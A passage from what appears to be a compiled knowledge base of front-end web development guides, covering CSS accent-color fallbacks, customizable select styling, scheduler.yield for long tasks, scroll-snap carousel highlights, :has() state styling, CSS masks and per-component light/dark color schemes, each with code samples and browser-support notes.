    <input type="radio" id="plan-monthly" name="plan" value="monthly">
    Monthly
  </label>
  <label for="plan-yearly">
    <input type="radio" id="plan-yearly" name="plan" value="yearly" checked>
    Yearly
  </label>

  <!-- Range Slider -->
  <label for="volume">Volume:</label>
  <input type="range" id="volume" min="0" max="100" value="70">

  <!-- Progress Bar -->
  <label for="file">Upload Progress:</label>
  <progress id="file" max="100" value="70">70%</progress>
</form>
```

## Strategic Implementation & Best Practices

- **DO** use `accent-color` to easily theme form controls to match your brand.
- **DO NOT** blindly trust the browser to handle contrast. While browsers are supposed to automatically determine an eligible contrast color, known bugs in implementations like **Safari** (WebKit bug 244233) and **Android Chrome** (Chromium bug 343503163) can fail to invert checkmark colors, leading to invisible or hard-to-see controls when using colors that lack sufficient contrast against the background (e.g., light colors in light mode, or dark colors in dark mode).
- **DO** combine `accent-color` with `color-scheme: light dark` to ensure form controls look good in both light and dark themes.
- **DO NOT** use a color that is too close to the background color, even though browsers try to guarantee contrast, it's best to provide a color with good base contrast.
- **DO NOT** assume `accent-color` works on all form elements. Currently, it only tints `checkbox`, `radio`, `range`, and `progress` elements.

## Fallback Strategy

accent-color has limited availability.
Supported by: Chrome 93 (Aug 2021), Edge 93 (Sep 2021), and Firefox 92 (Sep 2021).
Unsupported in: Safari.

For browsers that do not support `accent-color`, the form controls fall back to the browser's default appearance. To ensure full brand consistency and high reliability across all environments, you MUST implement a custom fallback strategy using the established "visually hidden input" technique.

### Progressive Enhancement with `@supports not`

You MUST use the `@supports not` rule to apply custom fallback styles only when `accent-color` is not supported. This ensures you leverage the simplicity of `accent-color` for modern browsers while guaranteeing a consistent branded experience for older ones.

#### 1. HTML Structure
Ensure your labels wrap the text in a `<span>` to allow for sibling selectors in CSS:
```html
<label for="subscribe-fallback">
  <input type="checkbox" id="subscribe-fallback" class="visually-hidden" checked>
  <span>Subscribe to newsletter</span>
</label>
```

#### 2. CSS Fallback
Apply custom styles within a `@supports not` block:
```css
/* Fallback for older browsers without accent-color */
@supports not (accent-color: var(--brand-color)) {
  /* Visually hide the native input using the canonical accessible recipe */
  form input[type="checkbox"].visually-hidden {
    position: absolute !important;
    clip-path: inset(50%) !important;
    overflow: hidden !important;
    width: 1px !important;
    height: 1px !important;
    margin: -1px !important;
    padding: 0 !important;
    border: 0 !important;
    white-space: nowrap !important;
  }

  /* Style the wrapper label */
  label {
    position: relative;
    padding-left: 2rem;
    cursor: pointer;
    display: inline-flex;
    align-items: center;
  }

  /* Custom box for checkbox */
  input[type="checkbox"] + span::before {
    content: "";
    position: absolute;
    left: 0;
    top: 50%;
    transform: translateY(-50%);
    width: 1.2rem;
    height: 1.2rem;
    border: 2px solid #ccc;
    background: white;
    border-radius: 4px;
    box-sizing: border-box;
    transition: all 0.2s ease;
  }

  /* Ensure custom checkbox shows focus for keyboard users */
  input[type="checkbox"]:focus-visible + span::before {
    outline: 2px solid #000;
    outline-offset: 2px;
  }

  /* Checked State */
  input[type="checkbox"]:checked + span::before {
    background-color: var(--brand-color, #6200ee);
    border-color: var(--brand-color, #6200ee);
  }

  /* Checkmark (Unicode) */
  input[type="checkbox"]:checked + span::after {
    content: "✓";
    position: absolute;
    left: 0.25rem;
    top: 50%;
    transform: translateY(-50%);
    color: white;
    font-weight: bold;
    font-size: 0.9rem;
  }

  /* Fallback for Range Slider */
  input[type="range"] {
    -webkit-appearance: none;
    appearance: none;
    background: transparent;
  }

  /* Webkit (Chrome, Safari, Edge) */
  input[type="range"]::-webkit-slider-runnable-track {
    width: 100%;
    height: 8px;
    /* Use gradient to show progress for a static value (e.g., 70%) or update with JS */
    background: linear-gradient(to right, var(--brand-color, #6200ee) 70%, #ccc 70%);
    border-radius: 4px;
  }

  input[type="range"]::-webkit-slider-thumb {
    -webkit-appearance: none;
    appearance: none;
    height: 16px;
    width: 16px;
    border-radius: 50%;
    background: var(--brand-color, #6200ee);
    cursor: pointer;
    margin-top: -4px; /* Center vertically */
  }

  /* Firefox */
  input[type="range"]::-moz-range-track {
    width: 100%;
    height: 8px;
    background: #ccc;
    border-radius: 4px;
  }

  input[type="range"]::-moz-range-thumb {
    height: 16px;
    width: 16px;
    border-radius: 50%;
    background: var(--brand-color, #6200ee);
    cursor: pointer;
  }

  /* Firefox specific progress bar */
  input[type="range"]::-moz-range-progress {
    background-color: var(--brand-color, #6200ee);
    height: 8px;
    border-radius: 4px;
  }

  /* Fallback for Progress Bar */
  progress {
    -webkit-appearance: none;
    -moz-appearance: none;
    appearance: none;
    border: none;
    background: #ccc;
    height: 8px;
    border-radius: 4px;
  }

  progress::-webkit-progress-bar {
    background-color: #ccc;
    border-radius: 4px;
  }

  progress::-webkit-progress-value {
    background-color: var(--brand-color, #6200ee);
    border-radius: 4px;
  }

  progress::-moz-progress-bar {
    background-color: var(--brand-color, #6200ee);
    border-radius: 4px;
  }
}
```

### Dynamic Range Progress in Webkit Fallback

To make the progress fill move with the thumb on a range slider in Webkit browsers (without `accent-color`), you can use a CSS variable and a small amount of JavaScript.

1. **Update CSS**: Use a CSS variable for the gradient stop:
```css
input[type="range"]::-webkit-slider-runnable-track {
  background: linear-gradient(to right, var(--brand-color) var(--progress, 0%), #ccc var(--progress, 0%));
}
```

2. **Add JavaScript**: Update the variable on the `input` event:
```javascript
if (!CSS.supports('accent-color')) {
  const slider = document.getElementById('volume');
  slider.addEventListener('input', (e) => {
    e.target.style.setProperty('--progress', `${e.target.value}%`);
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_BRANDED-SELECT-STYLING.MD

# Branded Select Styling
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The customizable select API offers a declarative, CSS-driven way to style `<select>` elements to perfectly match your brand's design system. By opting into `appearance: base-select`, you gain access to the internal shadow DOM of the select element, allowing you to style the button, the options picker list, the arrow icon, and the checkmark indicator using standard CSS properties.

Previously, achieving a fully branded select required rebuilding the control from scratch with JavaScript, which often broke accessibility, keyboard navigation, and native form integration. With `appearance: base-select`, you get a custom look while the browser handles focus management, top-layer rendering, and accessibility bindings.

## How to Implement

To implement branded select styling:

1. **Opt-in to customization:** Apply `appearance: base-select` to both the `<select>` element and the `::picker(select)` pseudo-element (which targets the drop-down list of options).
2. **Structure the custom button (Optional):** Define a `<button>` element directly inside the `<select>` to replace the default trigger. Use the `<selectedcontent>` element inside this button to represent the text or content of the currently selected option.
3. **Style the Picker List:** Use the `::picker(select)` pseudo-element to apply typography, background colors, borders, and shadows to the dropdown list. The browser renders this in the top-layer, making `z-index` conflicts a thing of the past.
4. **Style Internal Icons:**
   - Use `select::picker-icon` to style or replace the arrow icon.
   - Use `option::checkmark` to style the checkmark indicator next to the active option.
5. **Style Options:** Apply styles to `<option>` elements for hover states, padding, and layout.

## Example Code: Branded Courier Select

The following example demonstrates a custom select styled with a monospace font and dashed borders to match a specific "parcel" brand aesthetic.

```css
/* Enable customization for the select and its picker */
.brand-select,
.brand-select::picker(select) {
  appearance: base-select;
}

/* Style the visible trigger button */
.brand-select {
  font-family: 'Courier New', monospace;
  background-color: #fffaf0;
  color: #8b4513;
  border: 2px dashed #8b4513;
  border-radius: 4px;
  padding: 0.75rem;
  font-size: 1rem;
  cursor: pointer;
}

/* Style the dropdown options list */
.brand-select::picker(select) {
  font-family: 'Courier New', monospace;
  background-color: #fffaf0;
  border: 2px dashed #8b4513;
  border-radius: 4px;
  padding: 0.5rem;
}

/* Customize internal part colors to match text */
.brand-select::picker-icon {
  color: #8b4513;
}

.brand-select option::checkmark {
  color: #8b4513;
}

/* Style individual options and hover effects */
.brand-select option {
  padding: 0.5rem;
  border-radius: 4px;
  color: #8b4513;
  cursor: pointer;
}

.brand-select option:hover {
  background-color: #fdf5e6;
}
```

```html
<label for="preferences">Select shipping preference</label>
<select class="brand-select" id="preferences" name="preferences">
  <button>
    <selectedcontent></selectedcontent>
  </button>
  <option value="standard">Standard Shipping</option>
  <option value="express" selected>Express Shipping</option>
  <option value="overnight">Overnight Delivery</option>
</select>
```

## Strategic Implementation & Best Practices

- **DO** use `appearance: base-select` when your design system requires high-fidelity, visual consistency across all form controls that cannot be achieved with standard cross-browser select overrides.
- **DO NOT** use this if you rely on the operating system's native picker experience (e.g., the standard scroll wheel picker on iOS devices). Opting into `base-select` opts out of native mobile UI controls in favor of web-rendered top-layer menus.
- **DO** verify that color contrast meets WCAG standards. The customizable picker allows you to set ad-hoc colors, but you are responsible for ensuring text remains legible against custom backgrounds.
- **DO** test layout behavior. Setting `appearance: base-select` removes the default browser behavior of sizing the select based on its longest option width. You may need to set a fixed width or use flex/grid constraints to prevent layout shifts.
- **DO** ensure your `<select>` has a `name` attribute and an associated `<label>`. This ensures that even with a custom UI, the component remains accessible to screen readers and works correctly with standard form submissions.

## Fallback strategies

### Fallbacks & browser support for Customizable <select>

Customizable <select> has limited availability.
Supported by: Chrome 135 (Apr 2025) and Edge 135 (Apr 2025).
Unsupported in: Firefox and Safari.

For browsers that do not yet support `appearance: base-select`, the `<select>` element degrades gracefully to a standard operating system dropdown.

- **Non-Text Content Ignored**: Older browsers strip HTML tags (like `<svg>` or `<div>`) inside `<option>` tags and render only the text nodes. Ensure the text content of the `<option>` is readable and meaningful on its own.
- **HTML Structure Handling**: Standard parsers may ignore the `<button>` and `<selectedcontent>` tags inside `<select>` or treat them as invalid. No heavy JavaScript polyfills are strictly required for progressive enhancement if you view standard text as a readable fallback.


```javascript
document.addEventListener("DOMContentLoaded", () => {
  // Check if browser supports base-select value
  if (!CSS.supports("appearance", "base-select")) {
    // Custom select overrides are not supported natively.
  }
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, vcs, api]

### 📘 KNOWLEDGE: NEXUS_BREAK-UP-LONG-TASKS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Heavy computations or long loops can block the main thread, causing the page to become unresponsive. To prevent this, you should yield control back to the browser periodically. The `scheduler.yield()` API allows you to pause a long task and let the browser handle user input or rendering before continuing.

### Breaking up long tasks

Use `scheduler.yield()` inside async functions to break up work.

```javascript
async function processLargeArray(items) {
  // DO: Set a time-based deadline 50 milliseconds into the future. 50
  // milliseconds is the boundary for when a task becomes a long task.
  let deadline = performance.now() + 50; // 50ms budget

  for (const item of items) {
    // Process the item
    processItem(item);
    
    // MANDATORY: Yield to the main thread periodically to keep the UI
    // responsive. This can be done by checking if the deadline set earlier
    // has been exceeded. When it has been, yield, then reset the deadline
    // another 50 milliseconds into the future.
    if (performance.now() >= deadline) {
      await scheduler.yield();
      deadline = performance.now() + 50;
    }
  }
}
```

### Fallback strategies

Scheduler API has limited availability.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), and Firefox 142 (Aug 2025).
Unsupported in: Safari.

Some browsers may not support the `scheduler` API. You MUST implement a fallback using `setTimeout` to ensure code executes without breaking.

#### Fallback for `scheduler.yield()`

```javascript
async function processLargeArrayWithFallback(items) {
  // DO: Set a time-based deadline 50 milliseconds into the future.
  let deadline = performance.now() + 50;

  for (const item of items) {
    processItem(item);
    
    // MANDATORY: Yield to the main thread periodically to keep the UI responsive.
    if (performance.now() >= deadline) {
      // DO: Feature detect scheduler.yield
      if ('scheduler' in window && 'yield' in window.scheduler) {
        await scheduler.yield();
      } else {
        // DO: Fallback to setTimeout for older browsers
        await new Promise(resolve => setTimeout(resolve, 0));
      }
      deadline = performance.now() + 50;
    }
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_CAROUSEL-SNAP-HIGHLIGHTS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Scroll-state container queries allow you to style elements based on their current scroll state, such as whether an element is "stuck" (via sticky positioning) or "snapped" (via scroll snapping). This enables carousel or gallery experiences where the active item can be visually distinguished without relying on JavaScript intersection observers or scroll event listeners.

### Core implementation

To highlight snapped items, you must establish a scroll-snap container, define the snap targets as scroll-state containers, and then query that state to style descendants.

#### 1. Establish the scroll snap container
The parent container must have `scroll-snap-type` enabled.

```html
<div class="carousel">
  <div class="carousel-item">
    <div class="card">Product 1 content</div>
  </div>
  <div class="carousel-item">
    <div class="card">Product 2 content</div>
  </div>
</div>
```

```css
.carousel {
  display: flex;
  overflow-x: auto;
  /* MANDATORY: Enable scroll snapping on the container */
  scroll-snap-type: x mandatory;
}
```

#### 2. Define snap targets as scroll-state containers
Each item in the carousel that should be tracked for snapping must be declared as a `scroll-state` container.

```css
.carousel-item {
  /* Define where the item snaps within the container */
  scroll-snap-align: center;
  
  /* MANDATORY: Establish this element as a scroll-state query container */
  container-type: scroll-state;
}
```

#### 3. Query the `snapped` state

Because container queries style **descendants**, you must apply the highlight styles to an element *inside* the snap target.  Because the scroll container is set to overflow on the x axis, use the `scroll-state(snapped: x)` query.

**MANDATORY**: Wrap the styles in ` @media (prefers-reduced-motion: no-preference)` to only show the effect to users who have not requested reduced motion. Depending on your use case, you may retain portions of the effect, but in this case, the cards flash from white to blue in a way that may cause problems for some users, so we disable it completely.

```css
/* Specify transition outside of queries so that it is applied regardless of state.  */
.card {
  transition:
    scale 0.4s cubic-bezier(0.25, 0.8, 0.25, 1),
    background-color 0.4s,
    color 0.4s,
    box-shadow 0.4s;
}
/* 
Only show the effect for users not requesting reduced motion. Disable completely, including the color change, as it causes a flash that may be problematic.
*/
@media (prefers-reduced-motion: no-preference) {
  /* Style the content when its parent .carousel-item is snapped on the x axis */
  @container scroll-state(snapped: x) {
    .card {
      background: #007bff;
      color: white;
      scale: 1.15;
      box-shadow: 0 10px 25px rgba(0, 123, 255, 0.3);
    }
  }
}

/* MANDATORY Copy-Paste Safety: Disable highlight scaling/flashing for motion sensitive users */
@media (prefers-reduced-motion: reduce) {
  .card {
    transition: none !important;
    scale: 1 !important;
  }
}
```

The `snapped` descriptor can query specific axes: `x`, `y`, `inline`, `block`, or `both`.


### Accessibility

**AVOID**: using `scroll-state` with interactive elements.

Visual highlights for snapped items can improve the UX, but the snapped item is not exposed to the accessibility tree. The visual theme applied to a snapped item should not convey that the element is active or focused, and a keyboard focus ring should be highly visible and distinct from the `snapped` highlight. If the snapped item is interactive, you must use other standard accessibility practices to make it accessible.  

Snapping occurs due to scrolling, which does not move keyboard focus. However, keyboard focus may cause the scroll container to move, causing a change in the snapped item, which may or may not be the focused item. This will likely be a source of confusion for users and is discouraged.

> [!NOTE]
> Detailed accessibility requirements for carousels (such as ARIA roles, slide attributes, and complex keyboard patterns) have been intentionally omitted from this guide. Carousel accessibility is highly nuanced and context-dependent; refer to established accessibility standards and perform thorough user testing for production environments.


## Fallback strategies

Container scroll-state queries has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

For browsers that do not support scroll-state queries, you should provide a functional base experience where all items are legible, even without the "active" highlight.

#### Feature detection
You can use `@supports` to provide enhancements only to supported browsers:

```css
@supports (container-type: scroll-state) {
  /* Enhancement styles here */
}
```

#### JavaScript fallback

If the highlight is critical for the user experience, use `IntersectionObserver` to determine the snapped item. Adjust the observed area to a thin slice in the center of the carousel by providing a `rootMargin` with a negative inline value. For example, to consider an element to be intersecting if it is in the center 2% of the carousel, set the `rootMargin` to `"0px -49%"`.  

```javascript
// Optional: detect support and apply a JS-based fallback
if (!CSS.supports('container-type', 'scroll-state')) {
  const observer = new IntersectionObserver((entries) => {
    entries.forEach(entry => {
      // Toggle a class based on intersection
      entry.target.classList.toggle('is-snapped', entry.isIntersecting);
    });
  }, {
    root: document.querySelector(".carousel"),
    // Carousel item intersects if any part of the carousel item is in the middle 2% of the carousel.
    rootMargin: "0px -49%"
  });

  document.querySelectorAll('.carousel-item').forEach(item => {
    observer.observe(item);
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_CHILD-STATE-BASED-STYLING.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Historically, CSS selectors could only traverse downwards—you could style a child based on its parent, but not a parent based on its child. The `:has()` pseudo-class changes this, allowing you to conditionally style a container element depending on the presence or state of its descendants.

By combining `:has()` with state pseudo-classes (like `:checked`, `:focus`, `:valid`, `:invalid`, or `:not()`), you can build complex, interactive UI components entirely in CSS, without needing JavaScript to toggle "modifier" classes (like `.is-active` or `.has-error`) on parent elements.

This is particularly useful for components that need to respond to internal interactions, such as a localized theme toggle reacting to a checkbox (`:checked`), a form group highlighting an error (`:invalid`), or a card elevating when a child link is focused (`:focus-within`).

### Implementing state-based container styling

**MANDATORY**: You must use the `:has()` selector on the container element to detect the specific state (e.g., `:checked`, `:focus`, `:invalid`) of its interactive child element.

To build a component that changes its styling based on a child's state:

1. **Define the default styling**: Set CSS variables on the container to define its base state.
2. **Apply state-based overrides**: Target the container with `:has([child-selector]:[state])` and redefine the CSS variables for the active or alternate state.

*Example: A component that changes theme based on a child toggle.*

```css
/* 1. Define the default state on the component container */
.theme-card {
  /* Using custom properties makes state-switching cleaner */
  --card-bg: #ffffff;
  --card-text: #333333;
  --card-border: #cccccc;

  background-color: var(--card-bg);
  color: var(--card-text);
  border: 1px solid var(--card-border);

  /* Use a transition for smooth state changes */
  transition: background-color 0.3s, color 0.3s;
}

/* 2. Apply styles when the child enters the specific state */
/* MANDATORY: Target the container and use :has() to check the descendant's state */
.theme-card:has(.theme-toggle:checked) {
  /* Override the properties for the active or alternate state */
  --card-bg: #222222;
  --card-text: #f0f0f0;
  --card-border: #555555;
}
/* You can also combine :has() and :not() to target specific negative states */
/* This selects a card that DOES NOT have a toggle in the checked state */
.theme-card:not(:has(.theme-toggle:checked)) {
  /* Optional: Explicit styles for the unchecked state if needed */
}
```

```html
<!-- The container element that receives the styling -->
<div class="theme-card">
  <!-- The child element whose state controls the parent -->
  <label>
    <input type="checkbox" class="theme-toggle">
    Enable Dark Mode
  </label>

  <h2>Card Title</h2>
  <p>The style of this entire card is controlled by the checkbox above.</p>
</div>
```

**Performance tip**: When using `:has()`, scope the selector to the most specific container possible (like `.theme-card`). Avoid anchoring it to very high-level elements like `body:has(...)` if the styling changes are localized, as broad `:has()` queries can trigger more layout recalculations.

### Fallback strategies

Baseline status for :has(): Newly available. It's been Baseline since 2023-12-19.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), Firefox 121 (Dec 2023), and Safari 15.4 (Mar 2022).

If the state-based styling is critical to the user experience or page layout, you must provide a fallback for browsers that do not support the `:has()` selector. For purely decorative effects, `:has()` can be used as a progressive enhancement without a fallback.

**MANDATORY**: When implementing a fallback for critical features, you must use `@supports not selector(:has(*))` in your CSS to define a traditional class-based fallback. If the critical state change relies on user interaction, you must also use a small inline script with `CSS.supports()` to toggle that class based on the equivalent JavaScript event (e.g., `change`, `focus`, `blur`) representing the state change.

```css
/* Fallback CSS for older browsers */
/* We check if the browser DOES NOT support the :has() selector */
@supports not selector(:has(*)) {
  /* Define a traditional modifier class that applies the exact same overrides */
  .theme-card.is-active {
    --card-bg: #222222;
    --card-text: #f0f0f0;
    --card-border: #555555;
  }
}
```

```javascript
/* Fallback JavaScript for older browsers */
/* Check for support before running the script to avoid unnecessary work in modern browsers */
if (!CSS.supports('selector(:has(*))')) {
  const toggle = document.querySelector('.theme-toggle');
  const card = document.querySelector('.theme-card');

  if (toggle && card) {
    // Manually toggle the fallback class when the input state changes
    toggle.addEventListener('change', (e) => {
      card.classList.toggle('is-active', e.target.checked);
    });
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_COMPLEX-SHAPES.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Overview
To clip elements to complex, free-form shapes like brush strokes or organic textures, use CSS Masking (`mask-image`). While `clip-path` is excellent for geometric shapes or vector paths, `mask-image` allows you to use images (like PNGs with transparency) or SVGs to define the visible area of an element. This approach is more expressive because it supports semi-transparency, allowing for soft edges and complex textures that are difficult or impossible to achieve with `clip-path`.

## Implementation
To implement complex shapes using CSS masks:

### Using transparency from an image
You can use the transparency of an image as a mask, with opaque parts visible and transparent parts hidden. This can be a PNG, SVG, or other image with transparency, or a generated image, like a CSS gradient.

```css
.shaped-element {
  /* MANDATORY: Use vendor prefix for wider support in older browsers */
  -webkit-mask-image: url('mask.svg');
  -webkit-mask-size: cover; /* Scale mask to cover element */
  -webkit-mask-repeat: no-repeat; /* Do not tile the mask */

  /* Standard property for modern browsers */
  mask-image: url('mask.svg');
  mask-size: cover;
  mask-repeat: no-repeat;
}
```

### Using an SVG element in HTML
You can also reference a `<mask>` element defined in an inline SVG in your page's HTML. Use `maskContentUnits="objectBoundingBox"` to make the mask scale automatically with the size of the element. This tells the browser to interpret all coordinates inside the mask as fractions from `0` to `1` (like `0.5` for 50%) instead of absolute pixels.

> **Luminance vs. Alpha Masking**: By default, SVG masks use **luminance** (brightness) to determine opacity, where white reveals, black hides, and gray creates semi-transparency. If you want the mask to use the **alpha channel** (transparency) of your SVG shapes instead, you can specify `mask-type: alpha;` in your CSS or `mask-type="alpha"` directly on the SVG `<mask>` element.

```html
<!-- White areas reveal content, gray creates semi-transparency, black or transparent hides it -->
<svg width="0" height="0">
  <defs>
    <!-- objectBoundingBox scales mask coordinates (0 to 1) with the element's size -->
    <mask id="custom-shape" maskContentUnits="objectBoundingBox">
      <!-- Use white shapes to define fully opaque areas -->
      <circle cx="0.5" cy="0.5" r="0.5" fill="white" />
      <!-- Use gray shapes to define semi-transparent/faded areas -->
      <circle cx="0.5" cy="0.5" r="0.25" fill="gray" />
    </mask>
  </defs>
</svg>

<div class="masked-content">
  <!-- Content to be masked -->
</div>

<style>
.masked-content {
  /* Reference the SVG mask ID */
  -webkit-mask-image: url(#custom-shape);
  mask-image: url(#custom-shape);
}
</style>
```

### Fallback strategies
Baseline status for Masks: Newly available. It's been Baseline since 2023-12-07.
Supported by: Chrome 120 (Dec 2023), Edge 120 (Dec 2023), Firefox 53 (Apr 2017), and Safari 15.4 (Mar 2022).

If a browser does not support `mask-image` or the prefixed version:
- The element will not be clipped and will display as a normal rectangle.
- Ensure the content is still readable and the layout does not break without the mask (progressive enhancement).
- Optionally, use feature detection to provide a simpler fallback shape with `clip-path`.

```css
/* Fallback for browsers that do not support masking */
@supports (not (mask-image: url(x))) and (not (-webkit-mask-image: url(x))) {
  .shaped-element {
    /* Use a simple rounded rectangle as fallback */
    clip-path: inset(5% round 15px);
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_COMPONENT-SPECIFIC-LIGHT-DARK-THEME.MD

# Component-specific light/dark themes
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While more commonly set on the root, the `color-scheme` property can be set on individual elements to force them into a different color scheme from the rest of the page.
This can be useful for components that must always be viewed in a specific color scheme (e.g. always in dark or light mode).

Example use cases include:
- Elements that are often in dark mode even on light mode pages for aesthetic reasons, e.g. code blocks, media players, photo galleries
- Areas that contain media designed for a light background (e.g. images, videos, illustrations, print previews) can be set to light mode even if the rest of the page is in dark mode.
- Elements whose color-scheme is controlled by a user-level setting, such as component previews
- Embeds that don't support both light and dark modes
- Design tools, maps, visualizations, games etc.

## When to change colors vs. when to force `color-scheme`?

Not every element that uses lighter text on darker background in light mode or darker text on lighter background in dark mode needs a different `color-scheme`.
For example, a primary button may be rendered as blue with white text in light mode, but that does not warrant a `color-scheme: dark`.

As a rule of thumb, typically elements using a different `color-scheme` are complex surfaces establishing their own visual context, rather than simple shallow containers.

When considering using a different `color-scheme` on an element, ask yourself:

- Should built-in browser UI that is not otherwise customized (e.g. form controls, scrollbars, etc) use that color-scheme or adapt to the page's color-scheme? -> if the former, don't use `color-scheme`.
- Should any `light-dark()` colors resolve like they do for the rest of the page or based on the override? -> if the former, don't use `color-scheme`.
- Should descendants be in that `color-scheme`? If not, don't use `color-scheme`.

## Basic implementation

Component-specific overrides are typically (though not strictly necessarily) used on pages that also support multiple color schemes via a global `color-scheme`.
For implementing page-wide dark mode well, see `dark-mode` (via `npx -y modern-web-guidance@latest retrieve "dark-mode"`).

Once a page-wide `color-scheme` is in place, and you are using color tokens sensitive to it (e.g. via `light-dark()`), you can simply set `color-scheme` on specific components to override the color mode for that subtree:

```css
pre, code, .dark {
  color-scheme: dark;
}
```

Note that some browsers automatically adapt components to a different color scheme anyway.
To force the specified color scheme in all cases, use `only`, i.e. `color-scheme: only dark;` instead of `color-scheme: dark;`.

### Adapting non-color values

`light-dark()` currently only works for colors.

## Best practices

- **MANDATORY**: Do not set `color-scheme` on elements without a background, as that risks mixing background and text color pairs from different color-schemes, resulting in unreadable text.
- **OPTIONAL**: While it is easier to reuse the same color pairs as the page-wide dark mode, we _can_ define different color pairs for these components. For example, we may want a dark mode component used in a light mode page to be a little less dark than when the same dark mode component is used in a page that is overall in dark mode.

## Known issues to be aware of

### Important gotcha: Inheritance of `light-dark()` colors

**`light-dark()` resolves at computed value time.**
This means that any inherited `<color>` properties set to a `light-dark()` color will only pass down one of the two colors to their descendants, not the `light-dark()` expression itself.

This includes:
- Built-in color properties that inherit, such as `color`, `accent-color`, `fill`, `stroke`, `text-shadow`, `caret-color`
- Any registered inheritable custom properties with `syntax: <color>` and `inherits: true`
- Any other `<color>` property set to `inherit`

This means you should:
- **NOT** register custom properties meant to hold *design tokens* (e.g. `--surface-color`) as `<color>`. Tokens need to keep their `light-dark()` expression live so descendants can re-resolve them under a different `color-scheme`.
- When setting `color-scheme` on an element, re-specify any inherited `<color>` properties that may have been set to `light-dark()` values (directly or via design tokens), even if that's to the same design token.
- **NOT** use `inherit` on `<color>` properties on elements with a `color-scheme` override (fine to use on their descendants).
- **DO** use registered `<color>` properties for the *opposite* use case: when you deliberately want to snapshot the ancestor's resolved color and prevent it from re-resolving under the descendant's `color-scheme`. For example, capturing the page background to use elsewhere.
- If you need to animate a color, use a separate `@property`-registered `<color>` property on the element being animated (registration is required for color interpolation) — this is not a design token, but a per-element animation target, so it does not conflict with the rule above.

Example:

```css
:root {
	--accent-color: light-dark(blue, skyblue);
	--surface-color: light-dark(white, #222);
	--text-color: light-dark(#111, white);

	color-scheme: light dark;
	accent-color: var(--accent-color);
	color: var(--text-color);
}

body {
	/* --surface-color dynamically switches despite being inherited because --surface-color is not registered */
	background: var(--surface-color);
}

pre, code {
	color-scheme: dark;
	background: var(--surface-color);

	/* Without this, accent-color would be blue, not skyblue! */
	accent-color: var(--accent-color);

	/* Without this, text-color would be #111, not white! */
	color: var(--text-color);
}
```

### Issues to be aware of when using color-scheme

- Chrome and Firefox respect `color-scheme` for iframes: they render embedded pages in the correct color scheme and adjust the embedded page's `prefers-color-scheme` media query to reflect the embedding context's `color-scheme`. Safari does not, and resolves `prefers-color-scheme` to the system setting even inside iframes.
  - **If you control both parent and iframe:** pass the parent's color scheme to the iframe explicitly — via a URL parameter (`?theme=dark`) at iframe construction time, or via `postMessage()` (which also lets you react to runtime changes). In the iframe, set a class on `<html>` (and/or `color-scheme` on `:root`) from that signal instead of relying on `prefers-color-scheme`.
  - **If you only control the embedded page:** there is no reliable way to detect the embedding context's `color-scheme` from inside the iframe in Safari. Expose an explicit theme parameter on your embed API (e.g. a query string or `postMessage` protocol) and document it for embedders.

## Fallback strategies

### Fallbacks & browser support for color-scheme

Baseline status for color-scheme: Widely available. It's been Baseline since 2022-02-03.
Supported by: Chrome 98 (Feb 2022), Edge 98 (Feb 2022), Firefox 96 (Jan 2022), and Safari 13 (Sep 2019).

The `color-scheme` property is **progressive enhancement**.
Browsers that do not support it will ignore this property and use their default light-mode UI.

To adapt to the user's preferences in older browsers, use `prefers-color-scheme` media queries to provide different colors when dark mode is preferred.

- DO use the media query to switch custom properties on `:root` or `html`
- Avoid using the media query on individual components unless the component requires a very specific type of dark mode customization beyond colors.

```css
:root {
  /* Define brand colors for each mode */
  --color-brand-light: #0056b3;
  --color-brand-dark: #00e5ff;
  --color-brand: var(--color-brand-light);

  /* MANDATORY: Fallback for browsers without light-dark support */
  @media (prefers-color-scheme: dark) {
    --color-brand: var(--color-brand-dark);
  }

  /* Ignored in older browsers */
  color-scheme: light dark;
}

button.primary {
	background-color: var(--color-brand);
}
```

### Fallbacks & browser support for light-dark()

Baseline status for light-dark(): Newly available. It's been Baseline since 2024-05-13.
Supported by: Chrome 123 (Mar 2024), Edge 123 (Mar 2024), Firefox 120 (Nov 2023), and Safari 17.5 (May 2024).

For browsers that support `color-scheme` but not yet `light-dark()`, light and dark versions of colors should first be defined as custom properties, and the `prefers-color-scheme` media query should be used to set colors for the respective mode like in the example below:

```css
:root {
  /* Define browser UI accent color for each mode */
  --brand-accent-light: #0056b3;
  --brand-accent-dark: #00e5ff;
  --accent-color: var(--brand-accent-light);

  /* MANDATORY: Fallback for browsers without light-dark support */
  @media (prefers-color-scheme: dark) {
    --accent-color: var(--brand-accent-dark);
  }

  /* OPTIONAL: use light-dark() for more control of built-in UI colors */
  @supports (color: light-dark(white, black)) {
    --accent-color: light-dark(var(--brand-accent-light), var(--brand-accent-dark));
  }

  /* MANDATORY: Automatically adapt native UI to user system preferences */
  color-scheme: light dark;

  /* Example inherited color property */
  accent-color: var(--accent-color);
}

pre, code {
  color-scheme: dark;

  /* **Mandatory**: any inherited color properties must be set again, even if to the same design tokens */
  accent-color: var(--accent-color);
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_CONSISTENT-CROSS-DOCUMENT-TRANSITIONS.MD

# Consistent Cross-Document Transitions
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem

